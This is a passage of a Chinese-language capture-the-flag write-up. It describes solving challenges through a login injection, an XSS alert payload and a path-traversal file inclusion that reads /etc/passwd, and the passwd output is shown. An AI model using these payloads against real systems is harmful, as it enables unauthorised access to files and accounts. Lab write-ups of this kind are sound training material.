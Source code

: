 ![Alt text](http://static.cizel.cn/nextone/8_9.png)

一个shell窗口,ls 一下看到有flag的文件夹，但是没有cd命令。

用burpsuit进行攻击扫描，无果

一想，要是可以拿到管理员权限，说不定就有更多的命令了。

可能登陆可以注入，注入试试

![Alt text](http://static.cizel.cn/nextone/8_10.png)

成功登陆

![Alt text](http://static.cizel.cn/nextone/8_11.png)

成功拿到flag

Web安全完

## 渗透测试

### 弹弹弹
- 题目：flag是弹出来的

看完题目第一反应是XSS， 输入`<script>alert('xss')</script> `

弹出Flag

### 就在其中

- 题目：文件是可以被“调用”的。

![Alt text](http://static.cizel.cn/nextone/9_1.png)

BurpSuit 攻击走起

![Alt text](http://static.cizel.cn/nextone/9_2.png)

文件为 1234.php 里面为空，说明Flag可能就是这个文件里面，而且题目提示是文件包含。
`?file=../../../../../../../../../etc/passwd`
输出：

```
root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin gopher:x:13:30:gopher:/var/gopher:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin apache:x:48:48:Apache:/var/www:/sbin/nologin
```
看到乌云的这一篇 [http://drops.wooyun.org/tips/3827](http://drops.wooyun.org/tips/3827)

